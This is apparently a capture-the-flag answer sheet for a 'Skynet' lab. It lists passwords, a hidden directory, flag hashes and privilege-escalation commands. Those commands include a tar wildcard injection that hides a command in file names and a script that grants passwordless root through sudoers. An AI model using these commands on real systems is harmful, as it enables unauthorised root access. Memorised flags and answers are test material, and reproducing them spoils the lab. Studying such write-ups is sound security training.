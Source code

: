 # Skynet

```bash
export IP=10.10.201.97
```

# Task 1

* What is Miles password for his emails?

```
cyborg007haloterminator
```

> smb password: )s{A&2Z=F^n_E.B\`

* What is the hidden directory?

```
/45kra24zxs28v3yd
```

* What is the vulnerability called when you can include a remote file for malicious purposes?

```
Remote File Inclusion
```

* What is the user flag?

```
7ce5c2109a40f958099283600a9ae807
```

* What is the root flag?

```
3f0372db24753accc7179a282cd6a949
```

---

* used commands for PrivEsc 

```bash

python -c 'import pty;pty.spawn("/bin/bash")'

echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=bash sudo.sh"
touch "/var/www/html/--checkpoint=1"


```